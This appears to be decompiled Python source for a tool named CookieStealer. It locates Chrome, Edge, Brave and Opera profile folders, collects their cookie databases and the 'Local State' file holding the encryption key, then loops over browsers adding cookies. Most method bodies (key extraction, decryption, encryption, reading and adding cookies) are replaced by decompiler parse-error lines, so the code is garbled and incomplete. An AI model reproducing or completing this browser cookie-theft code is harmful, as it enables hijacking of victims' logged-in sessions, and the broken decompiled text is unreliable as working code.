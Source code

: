 ```python
BROWSER_MAP = {'Chrome':{"BROWSER_PATH": (os.path.join(os.environ["USERPROFILE"], "AppData", "Local", "Google", "Chrome", "User Data"))}, 
 'Edge':{"BROWSER_PATH": (os.path.join(os.environ["USERPROFILE"], "AppData", "Local", "Microsoft", "Edge", "User Data"))}, 
 'Brave':{"BROWSER_PATH": (os.path.join(os.environ["USERPROFILE"], "AppData", "Local", "BraveSoftware", "Brave-Browser", "User Data"))}, 
 'Opera':{"BROWSER_PATH": (os.path.join(os.environ["USERPROFILE"], "AppData", "Local", "Opera Software", "Opera Stable"))}}

class CookieStealer:

    def __init__(self, browser_name, browser_path):
        if browser_name in ('Chrome', 'Edge', 'Opera', 'Brave'):
            self.local_state_path = os.path.join(browser_path, "Local State")
            self.cookies_path = []
            for cookie_path in glob.iglob((browser_path + "\\**\\Cookies"), recursive=True):
                self.cookies_path.append(cookie_path)
            else:
                if not self.cookies_path:
                    raise Exception("[!] Cookie file not found")
                if not os.path.isfile(self.local_state_path):
                    raise Exception("[!] Local State file not found")
                self.key = self.get_encryption_key()

            if self.key is None:
                raise Exception("[!] Unable to read key from Local State File")
        else:
            raise Exception("[!] Browser not supported")

    def get_encryption_keyParse error at or near `LOAD_CONST' instruction at offset 64

    def decrypt_dataParse error at or near `SETUP_FINALLY' instruction at offset 78

    def encrypt_dataParse error at or near `POP_TOP' instruction at offset 116

    def add_cookieParse error at or near `POP_TOP' instruction at offset 44

    def read_cookiesParse error at or near `POP_TOP' instruction at offset 56


def spawn_sampleParse error at or near `CALL_FINALLY' instruction at offset 92


def main():
    cs = None
    for browser in BROWSER_MAP:
        try:
            cs = CookieStealer(browser, BROWSER_MAP[browser]["BROWSER_PATH"])
        except Exception as e:
            try:
                print(e)
            finally:
                e = None
                del e

        else:
            if cs:
                print(f"====== ADDING {browser} COOKIES ==========")

    for app in COOKIE_MAP:
        for cookie in COOKIE_MAP[app]:
            if cs.add_cookie(cookie):
                print(f"[+] {browser}: {app} added cookie {cookie.name}")
```